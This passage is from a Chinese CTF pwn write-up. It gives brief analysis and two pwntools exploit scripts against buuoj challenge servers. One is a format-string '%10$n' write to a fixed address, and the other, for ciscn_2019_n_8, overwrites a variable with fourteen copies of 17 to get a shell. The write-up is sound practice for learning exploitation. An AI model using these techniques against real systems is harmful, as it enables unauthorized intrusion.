 gdb调试中看到是第10个参数

![image-20220313012609549](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852781.png)

编写脚本

```python
from pwn import *
#from LibcSearcher import *
context(log_level='debug',arch='i386',os='linux')   
host='node4.buuoj.cn'
port=29739
io=remote(host,port)
#io=process()
#elf=ELF("./pwn")

dword_addr = 0x804c044
payload = p32(dword_addr) + b"%10$n"
io.sendlineafter(b"name:",payload)
io.sendline(b'4')
io.interactive()
```

# ciscn_2019_n_8

32位，动态链接，保护都已打开

![image-20220313012708624](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852674.png)

 var中第14个参数等于17就得到sh，所以直接输入14个17就行

![img](https://gitee.com/cai-yi-ming/ctf-pwn/raw/master/202203191852552.png)

编写脚本

```python
from pwn import *
#from LibcSearcher import *
context(log_level='debug',arch='i386',os='linux')   
host='node4.buuoj.cn'
port=27676
io=remote(host,port)
#io=process()
#elf=ELF("./pwn")

payload = p32(17)*14
io.sendline(payload)
io.interactive()
```

# jarvisoj_level2
